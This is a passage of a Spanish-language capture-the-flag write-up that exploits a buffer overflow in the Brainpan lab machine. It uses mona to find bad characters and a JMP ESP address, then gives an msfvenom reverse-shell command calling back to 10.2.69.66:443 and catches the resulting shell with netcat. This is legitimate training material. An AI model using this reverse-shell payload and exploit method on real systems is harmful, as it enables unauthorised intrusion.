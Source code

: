 ![15]

El siguiente paso es buscar los badchars del servicio. Iniciamos creando el bytearray base en mona contemplando el badchar \x00 por defecto:

    !mona bytearray -b "\x00"

Colocamos la cadena de bytes en nuestro script, contemplando igualmente el \x00 por defecto y lo ejecutamos. Hacemos el comparativo de ambos con ayuda de mona para detectar los badchars:

    !mona compare -f c:\mona\brainpan\bytearray.bin -a <DIRECCION DEL ESP>

![16]

Como podemos observar, en la primera pasada logramos obtener **Unmodified**, por lo que no existen más badchars para este binario.

Ahora, buscamos la dirección de la instrucción JMP ESP en el binario o su biblioteca que tenga el ASLR y SEH deshabilitados y que no contengan el badchar encontrado.

    !mona jmp -r esp -cpb "\x00"

![17]

Copiamos la dirección encontrada en nuestro script, añadimos los NOP's y creamos nuestro payload con ayuda de msfvenom:

    msfvenom -p windows/shell_reverse_tcp LHOST=10.2.69.66 LPORT=443 EXITFUNC=thread -b "\x00" -f c

Creamos una reverse shell que se conecte a nuestra máquina sin que empleé el badchar encontrado. Lo agregamos a la variable payload del *exploit.py* junto con los demás datos para el BoF.

![18]

Ya con todo listo, lo ejecutamos con una consola aparte en escucha con ayuda de netcat. Vemos cómo inmediatamente obtenemos la cmd en el sistema, habiendola comprometido exitosamente.

![19]

# Comprometiendo el sistema original <a name="id5"></a>
Ya que vimos que el script funciona, comprometemos el sistema original solo cambiando la IP destino:

![20]

Recordemos que este sistema es un Linux, no un Windows. Me pregunto si de casualidad me encuentro dentro de un docker, así que muestro la IP para darme cuenta de que no es el caso:

![21]

Nota: Obtenemos una consola que asimila a una cmd dado que el payload de msfvenom lo generamos para este sistema (Windows), solo sería cuestión de modificarlo para que retorne una reverse shell en un sistema Linux y volver a ejecutar el exploit. Como desconocía esto, tardé un poco en escapar de la consola devuelta para poder entrar en una **bash**.
